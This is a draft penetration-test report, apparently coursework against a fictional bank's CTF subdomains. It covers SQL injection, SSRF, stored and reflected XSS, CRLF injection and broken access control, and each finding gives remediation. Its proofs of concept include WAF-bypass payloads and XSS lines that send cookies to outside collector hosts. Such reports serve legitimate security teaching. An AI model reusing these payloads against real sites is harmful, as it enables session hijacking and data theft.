# Glossary of Terms

Definitions for these terms were taken from [owasp.org](https://owasp.org/)

| Terms                                | Definition                                                   |
| ------------------------------------ | ------------------------------------------------------------ |
| SQL Injection (SQLi)                 | A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. |
| Server-Side Request Forgery (SSRF)   | In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. |
| Cross-Site Scripting (XSS)           | Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. |
| Stored XSS Attacks                   | Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. |
| Reflected XSS Attacks                | Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request. |
| Carriage Return Line Feed (CRLF)     | A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL. |
| Content Security Policy (CSP)        | CSP specification use “directive” where a directive defines a loading behavior for a target resource type. |
| Cross Origin Resource Sharing (CORS) | Cross Origin Resource Sharing (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest (XHR) Level 2 (L2) API in a controlled manner. |


# Vulnerability Classifications

For this report, vulnerability severities are classified and measured using the [Bugcrowd’s Vulnerability Rating](https://bugcrowd.com/vulnerability-rating-taxonomy) system.

### P1 - Critical

Vulnerabilities that cause a privilege escalation on the platform from unprivileged to admin, allows remote code execution, financial theft, etc. Examples: vulnerabilities that result in Remote Code Execution such as Vertical Authentication bypass, SSRF, XXE, SQL Injection, User authentication bypass.

### P2 - High Risk

Vulnerabilities that affect the security of the platform including the processes it supports. Examples: Lateral authentication bypass, Stored XSS, some CSRF depending on impact.

### P3 - Medium Risk

Vulnerabilities that affect multiple users, and require little or no user interaction to trigger. Examples: Reflective XSS, Direct object reference, URL Redirect, some CSRF depending on impact.

### P4 - Low Risk

Issues that affect singular users and require interaction or significant prerequisites (MitM) to trigger. Examples: Common flaws, Debug information, Mixed Content.

### P5 - Acceptable

Non-exploitable weaknesses and “won’t fix” vulnerabilities. Examples: Best practices, mitigations, issues that are by design or acceptable business risk to the customer such as use of CAPTCHAS.

# Executive Summary

QuoccaBank is a "Cyber-Friendly" bank with the prospects of being a reliable and secure service for users. Our team has been in charge of conducting preliminary security assessments on the QuoccaBank system and infrastructure. QuoccaBank has asked us for an interim document detailing our findings and assessment of security vulnerabilities currently present in the system. The main goals of the report are to

- identify discovered vulnerabilities,
- showcase the proof of concept,
- explaining the impacts such vulnerabilities may have,
- providing some remediations to patch the vulnerability, and
- CORS testing and detailing Same Site impacts.

The scope of the report includes the following subdomains:

- report.quoccabank.com
- csp.quoccabank.com
- profile.quoccabank.com
- science-today.quoccabank.com
- sturec.quoccabank.com
- support-v2.quoccabank.com
- wallet.quoccabank.com
- ctfproxy2.quoccabank.com

The vulnerabilities discussed have been rated according to [Bugcrowd’s Vulnerability Rating](https://bugcrowd.com/vulnerability-rating-taxonomy) system where the severity is measured on a scale from P1 - Critical to P5 - Acceptable.

# Summary of Results

After conducting thorough testing on QuoccaBank's systems and infrastructure, our team has discovered that there exist X vulnerabilities classified under P1 - Critical, X vulnerabilities classified under P2 - High Risk, X vulnerabilities classified under P3 - Medium Risk, X vulnerabilities classified under P4 - Low Risk and X vulnerabilities classified under P5 - Acceptable. An entire list of vulnerabilities can be found on the table of contents.

# Vulnerabilities

## P1 CRITICAL - SQL Injection in Payment Portal behind WAF

**Asset Domain:** payportal-v2.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P1 - Critical

### Vulnerability Details

There exists an SQL injection vulnerability in the `period` parameter sent to the payment portal backend, identical to the vulnerability in `pay-portal.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

The first (and last) line of defence against SQLi here is the WAF provided by `ctfproxy2`. By probing the parameter with inputs, we discover that the double dash comment characters `--` and ` or ` (or surrounded with whitespace) trigger the HackShield WAF. 

1. Identify what SQL database is `payportal-v2` is using. This can be determined by inputting `"` as `payportal-v2` reveals information about the SQL server through error messages.

   

2. By probing the parameter with inputs, we discover that some characters such as the double dash comment characters `--` and ` or ` (or surrounded with whitespace) trigger the HackShield WAF.

   

3. To bypass this blacklist matching, we simply replace our space characters with an inline comment - e.g. `1"/**/or/**/`. 

4. As a proof of concept, we leak all entries in the `payportal` table with a modified `1" or "1" = "1";` payload to reveal sensitive information from the database

   ```sql
   1"/**/or/**/"1"="1";
   ```

   ```
   https://ctfproxy2.quoccabank.com/api/payportal-v2/?period=1%22%2F**%2For%2F**%2F%221%22%3D%221%22%3B
   ```
   

### Impact

The SQLi vulnerability enables the execution of a subset of SQL. An attacker may exfiltrate records in the local database which can contain sensitive data, pivot to connected DB systems, or escalate to RCE depending on the backend environment and database configuration (unlikely here due to a lack of write privileges). The ability of an attacker to exfiltrate information from a system's database can lead to serious implications for QuoccaBank and its users. Sensitive information such as emails, passwords, or the company's confidential data might be stored in the database. If information were to be leaked, the repercussions would entail a severe loss of reputation from being a bank focused on 'cyber-security'. 

### Remediation

Construct SQL queries using parameters and prepared statements provided in the appropriate backend framework rather than string concatenation. This allows the SQL engine to distinctively identify between code and data. Furthermore, it is recommended to ensure error messages are not displayed to the user. This makes it difficult for an attacker to formulate what the SQL query could be. Another remediation is to encode sensitive information in the database, such as passwords. User input should also be validated. The [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) can provide further guidance to have better security measures in place.

## P2 HIGH - SSRF on CTFProxy2 /flag internal access
**Asset Domain:** ctfproxy2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details
A vulnerability with the web application firewall (WAF) for updating avatar (/me) allows internal sites such as /flag to be accessed by a malicious user. The WAF does not manage to completely prevent access to internal networks. 

### Proof of Concept / Steps to Reproduce
Accessing /robots.txt hints at the existence of the /flag page. However, upon visiting it through ctfproxy2 as an external user, the page seems to return a status 418 code - I am a teapot! It seems like this page should only be accessed through the internal network. A vulnerability with the /me page for updating avatar can be used to access this page's contents. The source code for /me displays its WAF, which checks for blacklisted words, matches the input website domain with regex, before confirming that it does not refer to the IP address of an internal network. However, a vulnerability here exists where the domain captured with regex refers to a public server, but the actual url refers to another website (which links to an internal site). Providing a website in the format `http://PUBLIC_SITE@MALICIOUS_SITE/flag#.png` passes the checks where the url has to start with http(s) and end with .png. Since the @ symbol is not part of the capture group for the domain, the regex captures from http(s):// up to the @ symbol, which is PUBLIC_SITE. In reality, accessing this url will bring you to the malicious site, where the browser interprets PUBLIC_SITE as the username for logging into the MALICIOUS_SITE. This can be seen with the example `http://www.google.com@facebook.com`, which Firefox displays the following warning for:


The remaining /flag#.png refers to the flag route, with an anchor to #.png which is ignored if it does not exist. The payload `http://www.google.com@LOCALHOST/flag#.png` bypasses all the WAF checks and causes the Python backend to access 127.0.0.1/flag, dumping its HTML contents into the attacker's avatar. Although lowercase "localhost" is part of the blacklist, its uppercase version LOCALHOST is not. The content for /flag can now be extracted by saving the avatar as an HTML file, allowing an attacker to view the contents of the internal page, as shown below. 


Even if LOCALHOST was also blocked by the WAF, the MALICIOUS_SITE can be replaced by any site with an A record pointing to 127.0.0.1. This means that accessing this malicious site refers to an internal address, which also manages to bypass all the WAF checks as well.

### Impact

A vulnerability with the WAF for avatar uploading in /me allows an attacker to access internal sites such as /flag. Furthermore, it gives an opportunity to possible enumerate file paths and retrieve sensitive information from server side access.

### Remediation

Capturing the domain of a site with regex may be vulnerable to potential edge cases, allowing attackers past the WAF. It is often recommended to use existing frameworks if they exist. However, a better way to check whether a site refers to an internal network is by pinging the provided user input website first, and checking that it does not refer to an internal network. This prevents edge cases with regex capturing. 

## P2 HIGH - Stored XSS in Comment Section

**Asset Domain:** science-today.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability exists in the comment section of the `science-today` blog which could lead to session hijacks for several users.

### Proof of Concept / Steps to Reproduce

1. We can easily see that no sanitisation is performed on submitted comments which allow us to invoke arbitrary JS & HTML

   ```html
   </p><b>awf</b>
   ```


2. It appears that there is some basic level of input sanitisation where `script` tags are rendered on the page as text.

   

3. However, the filter in place is not effective enough and thus appends variations of the `script` tag, such as `SCRIPT`, as raw HTML.

   ```html
   <SCRIPT>alert(1)</SCRIPT>
   ```

   

4. As a proof of concept, we can leak the `flag` cookie to a server controlled by an attacker by uploading an XSS payload to steal cookies from viewers of the comment. We can then report the page containing the XSS payload to the automated administration system and leak sensitive information from admins.

   ```html
   <SCRIPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SCRIPT>
   ```

   

### Impact

Coupled with the automated administration system that renders JavaScript on reported pages, this stored XSS vulnerability allows an attacker to leak sensitive information from privileged clients. For example, an attacker could capture clientside session tokens with which they could conduct session hijacks. Additionally, the stored nature of the payload makes mass exploitation trivial, affecting all users to execute the XSS when viewing the page which dramatically increases the impact of a malicious payload. Stolen sessions can lead attackers to impersonate the victim on their behalf, posting up inappropriate content on the website, or negatively affect their online persona. 

### Remediation

Implement a whitelist to sanitise user input at both the client and server side through a well supported library such as `jsoup` or `DOMPurify`. All input must be sanitized and when appended onto the DOM, ensure that the user input is inserted as text rather than raw HTML. If user input is appended on the client side, using the `innerHTML` attribute should be avoided at all times as this poses the risk to potential XSS attacks. Instead, using the `innerText` method or `document.createTextNode` to append user input to the DOM is highly suggested. Furthermore, a Content-Security-Policy (CSP) should be in place to avoid the execution of untrusted resources. The CSP should utilise a randomly generated nonce each time a page is reloaded and have policies to be as strict as possible. When implementing CSP headers, avoiding using `unsafe-inline` or `unsafe-eval` as this enables inline JavaScript to be executed.

## P2 HIGH - Stored XSS in Comment Section behind WAF

**Asset Domain:** science-today.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability exists in the comment section of the `science-tomorrow` blog which is almost identical to the stored XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the Stored XSS vulnerability in `science-today`. Reproduction steps are identical to the non proxied variant albeit with the addition of a WAF bypass.

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" JavaScript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `flag` cookie by using the following payload and reporting the filtered page.

   ```html
   </img>
   ```

### Impact

Impacts are the same as what was mentioned in **P2 HIGH - Stored XSS in Comment Section**. However, due to the implementation of the "HackShield" WAF at `ctfproxy2` level, the severity of this vulnerability is lower when compared to its counterpart as the WAF in place provides some basic security over user input.  

### Remediation

Remediations to this vulnerability are the same as what was mentioned in **P2 HIGH - Stored XSS in Comment Section**. However, one major recommendation is the adoption of a commercial WAF in place of the current home-brew solution. Often, commercial WAFs are well-tested and developed with high levels of security in mind. Furthermore, usage of input sanitization libraries such as `jsoup` and `DOMPurify` ensures that XSS vulnerabilities are minimised.

## P2 HIGH - Stored XSS in Report Ticket

**Asset Domain:** support-v2.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A stored XSS vulnerability was found on `support-v2.quoccabank.com` where an attacker could upload a malicious XSS payload to leak client side secrets such as sensitive cookies.

### Proof of Concept / Steps to Reproduce

1. When creating a ticket, it uses the `title` and `content` field to populate the result. It appears that the `title` is injected directly, meaning that we can inject an XSS payload. However, checking the source code, it appears that the `content` field is sanitised using DOMPurify before it is appended on the DOM.

    

    

  2. Note that the `content` field gets appended whether or there was an error caused within the `try` block. This is a bug where the code statement `$("#tk").attr("srcdoc", content);` should have been included in the `try` block instead.

  3. 

  4. We can cause an error within the `try` block by disabling the import for `DOMPurify` since this line of code in the `try` block `content = DOMPurify.sanitize(content, {SAFE_FOR_JQUERY: true}).toString();` requires the library to successfully execute.

  5. Inject an XSS payload in the `title` field using the payload below. This makes it such that all text after the script tag is ignored (included within it is the DOMPurify import) due to the behaviour in how the browser parses incompleted HTML tags.

     ```html
     </h2><script>
     ```

     

5. For our proof of concept, note that the `content` field is appended in an HTML element with `id=tk`. We can simply inject an iframe in the `title` field containing the `id` and append the unsanitized XSS payload from the `content` field. Note that we are using an iframe tag since the `content` input is appended in the `srcdoc` attribute of a HTML element.

    ```html
    title=<iframe id="tk"></iframe><script>
    content=test<form id="rp"><input name="ownerDocument"/><script>fetch("https://enxju6dmctwrg.x.pipedream.net/"+document.cookie);</script></form>
    ```

    

6. Whenever a user visits the page, we can execute arbitrary JavaScript code where we could potentially steal client side secrets.

   

### Impact

Similar to **P2 HIGH - Stored XSS in Comment Section**, with the feature of reporting suspicious pages, attackers can upload a stored XSS payload to steal session cookies from admins (or viewers of the page). This allows an attacker to leak any sensitive information that can be found on the client side and be sent over to a server controlled by the attacker as part of a JavaScript request in the XSS payload. Attackers could potentially conduct session hijacks with stolen cookies, gaining control of a user's account. Common use cases for stored XSS include account hijacking, credential theft, or data leakage. More details on the ramifications of this vulnerability and how it can affect QuoccaBank can be found [here](https://www.cypressdatadefense.com/blog/cross-site-scripting-vulnerability/).

### Remediation

When writing code, it is important to ensure that the logic of execution is correct. For support-v2, the code line `$("#tk").attr("srcdoc", content);` should have been included in the `try` since it is the most logical sense. Although the user input has been sanitised by DOMPurify, it only applies to the `content` field. It is strongly recommended that ALL user input is sanitised. This applies to both the client and server side of the application where using well tested sanitisers such as `DOMPurify` on the client side and `jsonp` on the server side decreases risks of a stored XSS vulnerability. It is also recommended that the use of `iframes` should be avoided and content should be appended via document text nodes on the client side.


## P2 HIGH - WAF and JSONP XSS in sturec.quoccabank.com

**Asset Domain:** sturec.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

Using JSON-P (JSON with Padding) to render the page is insecure since an attacker can replace the arbitrary callback function, and use it to bypass the Content Security Policy (CSP) set by the website to only allow same origin scripts, resulting in cross-site scripting (XSS). Furthermore, a weak web application firewall (WAF) is used to try to prevent malicious scripts for cookie stealing. 

### Proof of Concept / Steps to Reproduce



Injecting HTML into the search form for the last name, it can be seen that HTML input gets reflected on the query page. For example, typing in `<b>test</b>` as the last name displays the bolded test, as can be seen in the image above. However, injecting something like `<script>alert(1)</script>` does not seem to work since the Content Security Policy (CSP) blocks external scripts, as evident from the console shown below. 



Furthermore, analysing the network requests when loading the page indicates that a request is made to sturec.quoccabank.com/students.jsonp?q={QUERY}&callback=render, which returns the data to be displayed (based on query) wrapped within a render function call. This means we can use the jsonp route to load a script that we want to run, which won't be blocked since it comes from the same origin by adjusting the callback argument. 

As a proof of concept, entering the following payload into the search bar successfully yields an alert on the page:

```html
<script src=/students.jsonp?callback=alert(1);render />
```



This can be further extended to steal a user's cookies. From experimenting, it seems that the `+` and `.` characters are blocked by the WAF to prevent usual cookie stealing XSS attacks. However, malicious payloads can still be crafted to bypass such restrictions. Referring to `document['cookie']` instead of `document.cookie` bypasses the period character restriction. The `+` character restriction can be bypassed by sending a POST request to an attacker site with the cookie, or using string literals as shown below:

```html
<script src=/students.jsonp?callback=fetch(`${ATTACKER.COM/}${document['cookie']}`);render />
```

### Impact

As demonstrated above, an attacker is able to use JSONP to bypass the website's CSP settings and successfully inject malicious scripts into the page. The XSS attack can be extended to steal user cookies from anyone who accesses a compromised page. 

### Remediation

JSONP should not be used since it can be used to bypass CSP same origin restrictions. Furthermore, search results should be rendered as HTML-encoded text instead of HTML, especially since the search feature is designed to look up last names anyways. However, if this is not possible, the WAF should use a common trusted framework to sanitise malicious input, such as DOMPurify, since the current WAF can be easily bypassed, as demonstrated above. 


## P2 HIGH - Stored XSS in sturec.quoccabank.com

**Asset Domain:** sturec.quoccabank.com

**Severity Classification:** P2 - High Risk

### Vulnerability Details

A malicious student can be created and added to the database such that whenever that student is rendered on any user's browser, there can be arbitrary client-side code execution through cross-site scripting (XSS). 

### Proof of Concept / Steps to Reproduce



Using Burp Suite to intercept a request for creating a new student, it can be seen that there is a hidden field added for "dcreate", referring to the date of creation (above). However, after successfully creating the student, it can be seen below that this field is hidden and not rendered on the screen, using a CSS display: none to hide its value. Using a payload such as `<b>test</b>` for dcreate, it can be seen that the beginning tag is removed by the WAF. 



From experimentation, it seems the WAF can be bypassed using something like `<<b>_b>test</b>` to keep the opening tag, where the opening tag as well as the following character seems to get stripped by the WAF. We can extend this proof of concept for arbitrary client-side code execution, using a similar technique from the previous sturec subdomain vulnerability regarding using JSONP to bypass the CSP blocking external scripts. The following payload creates a malicious new student such that every time that student is rendered, arbitrary code is executed for anyone who can see the student's row, such as for cookie stealing.

```html
<<b>_script src=/students.jsonp?callback=fetch(`${ATTACKER.COM/}${document['cookie']}`);render />
```


### Impact

As demonstrated above, it is possible to create a malicious student entry and add it to the database. This means that whenever that student is rendered on any user's browser, arbitrary code can be executed on their browser. This poses a security concern, since user cookies can be stolen, resulting in hijacked sessions.

### Remediation

As previously recommended, the web application should avoid using JSONP so the CSP cannot be bypassed for executing arbitrary JavaScript. Furthermore, the `dcreate` field should be HTML-encoded like the other fields (or even sanitised) even if it seems like a user cannot write to the field, since the CSS display: none only hides it visually so that the user does not see it, although the browser still interprets and executes the HTML. It may be better to manually set a dcreate on the server side, so users are unable to modify its client-side creation (using Burp Suite for example). 

## P3 MEDIUM - Reflected XSS in Comment Filter

**Asset Domain:** science-today.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

A reflected XSS vulnerability exists in the comment filtering system for the `science-today.quoccabank.com` blog which can lead to stealing session cookies from QuoccaBank's admins.

### Proof of Concept / Steps to Reproduce

1. We can escape the header context of our reflected input with `</h3>` which showcases a clear lack of sanitisation of user input for HTML tags.
   

2. However, there exists some basic input sanitisation where certain words such as `script` or `img` are blacklisted.

   

3. We can evade the single pass filter by nesting blacklisted tags (such as `img` and `script`) or attributes (such as `onerror` and `onload`) together. Use the payload below to invoke arbitrary JavaScript code to display an alert to the user. The payload can be replaced with any arbitrary JavaScript which can lead us to leak client side secrets.

    ```html
    <scri<script>pt>alert(1)</sc</script>ript>
    ```

    

4. As a proof of concept, we leak the `query-flag` cookie by appending it to a redirect to an attacker controlled server then reporting the page (along with the comment filter parameter) using the payload below.

    ```html
    <imimgg src="x" oneonerrorrror="location.href='http://requestbin.net/r/du0jqnpb/?c='+btoa(document.cookie)"></imimgg>
    ```


### Impact

Similar to the impacts mentioned in **P4 HIGH - Stored XSS in Comment Section**, this vulnerability can be chained with the administration system that renders JavaScript on reported pages. This reflected XSS vulnerability can be used to leak sensitive information from privileged clients through capturing client side session tokens from viewers of the reported page. This can lead to an attacker conducting session hijacks with the stolen cookies. With a stolen session, attackers can impersonate that account and post content on behalf of the victim. This could lead to the victim's online persona being compromised by the actions of the attacker.


### Remediation

User input must be sanitised both from both the client side and the server side. Implement a whitelist to sanitise user input, ideally, through a well supported framework such as `jsoup` or library such as `DOMPurify`. Ensure that any user input is inserted into the DOM as text rather than raw HTML. Furthermore, it is recommended that a strict CSP is in place to stop the execution of untrusted JavaScript. To avoid session cookies being stolen, set cookies to be `HttpOnly` to mitigate QuoccaBank admins affected by this reflected XSS.

## P3 MEDIUM - Reflected XSS in Comment Filter behind WAF
**Asset Domain:** science-tomorrow.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

A reflected XSS vulnerability exists in the comment filtering system for the `science-tomorrow` blog which is almost identical to the reflected XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the reflected XSS vulnerability in `science-today`. 

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" Javascript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `query-flag` cookie by using the following payload and reporting the filtered page.

   ```html
   </img>
   ```


### Impact

Impacts of this reflected XSS vulnerability are detailed in **P3 MEDIUM - Reflected XSS in Comment Filter**. However, due to the implementation of the "HackShield" WAF at `ctfproxy2` level, the severity of this vulnerability is lower when compared to its counterpart as the WAF in place provides some security over user input.

### Remediation

Remediations to this vulnerability are the same as what was mentioned in **P3 MEDIUM - Reflected XSS in Comment Filter**. However, one major recommendation is the adoption of a commercial WAF in place of the current home-brew solution. Often, commercial WAFs are well-tested and developed with high levels of security in mind. Furthermore, usage of input sanitization libraries such as `jsoup` and `DOMPurify` ensures that XSS vulnerabilities are minimised.

## P3 MEDIUM - Incorrect Access Control as No API Key Authentication in `flagprinter` 

**Asset Domain:** flagprinter.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

The internal web application `flagprinter` does not check whether the supplied `ctfproxy2-key` is authorised to access the application. This oversight allows an attacker to view sensitive information.

This vulnerability seems to have been picked up by a previous audit, as the original API endpoint was disabled by an administrator. However, by creating another endpoint with the same origin, we can "reactivate" the service and retrieve sensitive information. 

### Proof of Concept / Steps to Reproduce

1. The `flagprinter` API is shown in the API list with a description that it has been disabled.

   

2. Enabling the `ctfproxy2` flagprinter API throws an error message that the flagprinter API is disabled due to security reasons.

   

3. However, by simply creating another endpoint with the same origin, we can view any sensitive information from the flagprinter API.
   
   
   

   Alternatively, we could forge requests to the `flagprinter` with an arbitrary username in the `ctfproxy2-user` header (and other appropriate headers to masquerade as the `ctfproxy2` server).

### Impact

Confidential secrets can be leaked from an internal development server. Depending on the data exposed through the API, the severity of this vulnerability could be much more severe. However, seeing that `flagprinter.quoccabank.com` does not reveal any sensitive information, it has been classified as P3 - Medium. However, if it was to contain access to sensitive information such as a database that is susceptible to SQLi attacks, clearly that this vulnerability would be rated much higher.

### Remediation

Enforce stricter auditing of services before they go live. In this specific case, check the authorization of the `ctfproxy2-key` is valid before responding to proxied requests. Since `ctfproxy2` is a wrapper around the original API endpoint, it is important to disable the actual API endpoint rather than the `ctfproxy2` API as the original API can be accessed through another `ctfproxy2` endpoint. Furthermore, ensure that any disabled APIs are no longer shown as part of the API list.

## P3 MEDIUM - Incorrect Access Control for flagprinter-v2

**Asset Domain:** flagprinter-v2.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

The internal web application `flagprinter-v2` can be re-enabled by deploying another API linked to the `flagprinter-v2.quoccabank.com` service.

### Proof of Concept / Steps to Reproduce

1. The API is not visible shown initially. To find the API route, go to `/list`. There is a search bar for user input. When intercepting the POST request, notice that there exists a hidden parameter called `internal` which is set to 0. Set params to `internal=1&name=` to reveal the hidden flagprinter-v2 api.

   

2. Accessing `https://ctfproxy2.quoccabank.com/api/flagprinter-v2` gives a 404 error with the message "API does not exist or you don't have permission to access it".

   

3. An attack vector is possibly reenabling the API similar to what was achieved with `flagprinter.quoccabank.com`. By chaining the vulnerability found in **P4 LOW - Verbose Error Messages for deploying API**, messing around the body json returns this error alert.

   

4. There appears to be a `dependsOn` param in the body. Giving an invalid input initially (i.e. a number) returns an alert that it accepts an array of strings.

   

5. It appears that the `dependsOn` parameter could possibly be an AWS attribute that can specify that the creation of a specific resource follows another. Thus, if we set `dependsOn` to `flagprinter-v2`, we can effectively re-create the resource and link it to our deployed API. Use the following payload to deploy our own endpoint which once activated, re-creates the `flagprinter-v2.quoccabank.com` resource.

   ```json
   {
       "name": "flag-v2",
       "origin": "flagprinter-v2.quoccabank.com",
       "description": "",
       "dependsOn": [
           "flagprinter-v2"
       ]
   }
   ```

6. Since our endpoint is named `flag-v2`, visit `https://ctfproxy2.quoccabank.com/enable/flag-v2` to re-enable `flagprinter-v2.quoccabank.com`. This should mean that the API service should be reactivated. Now visit `https://ctfproxy2.quoccabank.com/api/flagprinter-v2/` (since that API endpoint has the correct `ctfproxy2-key` connecting to `flagprinter-v2`) to be able to view the contents of the webpage.

### Impact

Similar to **P3 MEDIUM - Incorrect Access Control as No API Key Authentication in `flagprinter`**, confidential secrets can be leaked from an internal development server.


### Remediation

Similar to **P3 MEDIUM - Incorrect Access Control as No API Key Authentication in `flagprinter`**, enforce stricter auditing of services when disabled or when they go live. Ensure that API endpoints do not necessarily depend on other resources. 

##  P3 MEDIUM - Stored XSS through WAF Vulnerability in report.quoccabank.com

**Asset Domain:** report.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details
The web application firewall (WAF) contains a race condition vulnerability that can be exploited so that some parts of the HTML are left unsanitised, exposing a stored XSS vulnerability in the report content. 

### Proof of Concept / Steps to Reproduce

1. The `robots.txt` route indicates that there is a `/view` page for the website. Through experimentation, it can be discovered that navigating to `/view/{sessionID}` allows one to view a submitted report, where the `sessionID` can be found through the cookie returned by the server upon sending a report. 
2. Send a report with title and content to have `<b>test</b>`. It can be seen, through viewing the report, that the content is potentially vulnerable to an XSS attack, whilst the title seems to be appropriately HTML encoded. 


3. It seems that the WAF, which can be found in the report's source code, strongly sanitise malicious tags and attributes, blocking a lot of malicious payloads. However, a vulnerability exists when trying to delete a malicious child element from the HTML content. The WAF iterates over the list of HTML child elements, calling the `sanitize()` function on each child within the loop, where unsafe child elements detected would be deleted from the list of child elements within the function. Due to list indexing, this means that the first element after an unsafe element will be skipped from the loop so they will remain unsantizied, leaving report viewers (such as admin) vulnerable to XSS attacks. 
4. As such, HTML can be inserted as the report content where the first child gets removed, but the next child element passes through the WAF and gets executed. For example, the following payload triggers arbitrary client side code execution as a proof of concept, where the script tag gets filtered out, but the following JavaScript is left unsanitised:

```html
<script></script>
<svg/onload=alert(1)>
```




### Impact

As demonstrated above, the vulnerability with the WAF allows for arbitrary client side code execution. However, this vulnerability alone is not sufficient in allowing an attacker to steal another user's cookies, since the cookies are HTTP-only (please refer to the CRLF injection vulnerability outlined in this document).

### Remediation

Regarding the WAF vulnerability, the most effective method of mitigating XSS is to disallow HTML user input in the first place, either HTML encoding user input or using a text parser if text formatting or image insertions are needed. Although using a `filter` function to sanitise children of the HTML report content, instead of removing elements whilst iterating over their containing array, would fix the WAF vulnerability. The safest way of sanitising user input would be to use popular trusted frameworks designed for HTML sanitisation, such as DOMPurify. These frameworks would most likely contain fewer vulnerabilities compared to writing a WAF yourself.


## P3 MEDIUM - CRLF vulnerability in report.quoccabank.com

**Asset Domain:** report.quoccabank.com

**Severity Classification:** P3 - Medium

### Vulnerability Details

Report titles are vulnerable to Carriage Return Line Feed (CRLF) injections, where certain HTTP headers can be pushed into the HTTP body and be rendered as HTML. This means that JavaScript can access HTTP-only cookies which would normally be unable to be accessed through JavaScript.

### Proof of Concept / Steps to Reproduce


Submitting a report and examining the server response on accessing the report view page, it can be noted above that my report title "Title" can be found in the HTTP response header when viewing the report, under the x-meta header. HTTP response header splitting can be used to "push" the HTTP-only cookie found in the server response header into the HTML body. With the same report content, intercepting sending a report and simply adding two url-encoded carriage return characters (\r\n) `%0D%0A%0D%0A` to the end of the report's title using Burp Suite, it can be seen that some extra HTML text can be found at the top of the page, containing the cookie (below). 


### Impact

The CRLF injection vulnerability causes cookies sent from the server to not be set properly, effectively rendering the HTTP-only cookie setting useless. When visiting a compromised site (such as through chaining this vulnerability with the XSS vulnerability in report.quoccabank.com), this vulnerability allows HTTP-only cookies to be picked up using JavaScript by using regex to search for them in the HTML body, which can then be forwarded to an attacker. An attacker may then be able to impersonate them and access reports they submitted, since report sessionIDs are stored in cookies. An example payload can be achieved through appending two carriage return characters to the report title, and using the following report content:

```html
<script></script>
<svg/onload=fetch('ATTACKER.COM/?q='+document.documentElement.outerText.match(/flag=(.*?);/)[1])/>
```

### Remediation

The CRLF injection vulnerability can also be remediated by sanitising report titles (stripping new line characters from `title` before being sent as an HTTP header) or properly encoded in the HTTP response header output. However, if its inclusion in the x-meta HTTP header is unnecessary, then it would be better to simply remove it from the header instead.

## P3 MEDIUM - Stored XSS in upload profile picture

**Asset Domain:** profile.quoccabank.com

**Severity Classification:** P3 - Medium

### Vulnerability Details

Cross site scripting can be triggered by accessing the url corresponding to an uploaded svg containing a malicious script. 

### Proof of Concept / Steps to Reproduce

Upload the following svg file to profile.quoccabank.com:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
 <script>alert(1)</script>
</svg>
```

As a proof of concept, accessing the URL of the uploaded image (at `/profileimage?{profileID}`), the alert script gets executed shown below. The JavaScript will also be executed for any user accessing this link.


### Impact

As demonstrated above with a proof of concept, this vulnerability enables arbitrary client side code execution. This means an attacker may be able to steal user cookies and hijack sessions and other sensitive data. 

### Remediation

Prohibiting the upload of svg files prevents similar attacks from happening. However, if this is not possible, updating the Content Security Policy (CSP) to a value like `Content-Security-Policy: script-src 'none'` will block script execution for malicious SVGs. Another method is to purify or convert uploaded SVGs to a universal format, such as a jpg or png. Furthermore, from inspecting the request for the image, it can be seen that the server returns the image as an `image/svg+xml`. Changing the MIME type to something like "application/octet-string" forces browsers to download the SVG content rather than rendering it inline, for example, and can prevent similar XSS attacks from occurring.



## P4 LOW - Reflected XSS in sturec.quoccabank.com

**Asset Domain:** sturec.quoccabank.com

**Severity Classification:** P4 - Low Risk

### Vulnerability Details

Reflected XSS (cross-site scripting) can be found in the last name field when creating a duplicate student. 

### Proof of Concept / Steps to Reproduce

When creating a student entry with the email address of an existing student, a page similar to below will appear, with the format `User {lastName} already exists`. Although the last name field usually gets HTML encoded when rendered on the home or index page, it seems like it is simply reflected in this case, where having the last name of `<b>test</b>` displays the following page. 



